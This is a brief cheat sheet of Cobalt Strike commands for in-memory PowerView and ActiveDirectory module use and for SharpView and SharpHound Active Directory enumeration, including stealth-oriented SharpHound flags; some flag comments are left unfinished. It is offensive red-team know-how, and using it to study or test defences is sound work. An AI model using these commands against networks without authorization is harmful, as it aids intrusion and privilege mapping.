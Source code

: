 # Cobalt Strike Cheat Sheet

## Running PowerShell scripts
```
powershell-import --> Select PowerView.ps1 to import PS1 file in memory
powershell Get-Module PowerView
powershell Get-NetUser -Identity testuser
```

## Running ActiveDirectory module
```
powershell import --> Select \ActiveDirectory\ActiveDirectory.psd1 file from https://github.com/samratashok/ADModule
```

## Executing .NET binaries (i.e. SharpView and SharpHound)
```
# Running SharpView in memory (.NET version of PowerView)
execute-assembly C:\SharpView.exe ...

# BloodHound collection with SharpHound.exe
# --Stealth will
# --excludedomaincontrollers will 
# --windowsonly will 
execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain test.lab.local --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\
```


# References
Cobalt Strike commands cheat-sheet: https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet
